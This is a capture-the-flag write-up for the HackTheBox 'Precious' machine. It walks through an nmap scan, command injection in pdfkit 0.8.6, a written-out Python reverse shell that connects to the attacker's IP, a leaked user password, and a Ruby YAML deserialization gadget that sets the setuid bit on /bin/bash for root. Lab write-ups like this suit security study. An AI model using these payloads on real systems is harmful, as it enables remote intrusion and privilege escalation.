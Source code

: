```yaml
---
categories: [HackTheBox]
tags: [PrivEsc, Public Exploit]
image:
  path: /Vulnhub-Files/img/Precious/front.png
  alt: https://www.hackthebox.com/achievement/machine/595651/513
---
```


```jsx
 IP : 10.10.11.189

sudo nano /etc/hosts
10.10.11.189    precious.htb
```

## PORT SCAN RESULTS ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Precious]
└─$ **sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.11.189**
Starting Nmap 7.93 ( https:/nmap.org ) at 2023-04-15 12:14 IST
Nmap scan report for 10.10.11.189
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http:/precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: ; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeartion ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%201.png)

Now on Burpsuite I got the pdf Generation version and Name >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%202.png)

Since it is using `pdfkit v0.8.6`  to generate pdfs So I dig into it and I found that this version is vulnerable > 

![Untitled](/Vulnhub-Files/img/Precious/Untitled%203.png)

It leads us to Link : [Exploit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795/)

After reading the `POC` I got to known that we can use any get `parameter`
 name and inside that use the `backticks` to injection our command.

```bash
http:/<LOCAL-IP>:<LOCAL-PORT>/?name=%20 `id(command)`
```

Now lets try it out now ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%204.png)

And it generated the pdf with results >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%205.png)

So lets try for reverse shell now ⤵️

```bash
http:/10.10.14.33:8888/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.33",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
```

![Untitled](/Vulnhub-Files/img/Precious/Untitled%206.png)

I got this >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%207.png)

Now lets Login into henry ⤵️

```jsx
henry : **Q3c1AqGHtoI0aXAYFH**
```

![Untitled](/Vulnhub-Files/img/Precious/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/Precious/Untitled%209.png)

Now lets see how to get to root >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2010.png)

Now let’s see what is inside this **update_dependencies.rb** file >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2011.png)

It is loading this dependencies.yml file >>

```bash
bash-5.1$ cat dependencies.yml]
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
bash-5.1$
```

Now I know that the /bin/bash permissions are changed so lets exploit it >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2012.png)

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2013.png)

Lets see the flag now ⤵️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2014.png)